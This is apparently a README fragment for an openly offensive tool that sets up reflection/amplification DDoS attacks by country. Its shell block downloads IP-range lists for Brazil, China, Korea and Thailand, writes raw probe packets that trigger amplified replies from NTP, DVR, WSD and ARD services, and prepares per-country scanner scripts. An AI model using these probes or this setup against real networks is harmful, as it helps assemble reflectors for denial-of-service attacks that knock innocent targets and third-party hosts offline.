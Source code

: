 it can provide @ amplification attacks with specific geolocations

all coded by aqu

```shell
wget https://www.ipdeny.com/ipblocks/data/countries/br.zone
wget https://www.ipdeny.com/ipblocks/data/countries/cn.zone
wget https://www.ipdeny.com/ipblocks/data/countries/kr.zone
wget https://www.ipdeny.com/ipblocks/data/countries/th.zone

echo -ne "\x17\x00\x03\x2a\x00\x00\x00\x00" > ntp.pkt
echo -ne "\x44\x48\x49\x50" > dvr.pkt
echo -ne "<:>" > wsd.pkt
echo -ne "\x00\x14\x00\x00" > ard.pkt

apt install dos2unix -y
dos2unix br.sh
dos2unix kr.sh
dos2unix cn.sh
dos2unix th.sh
```
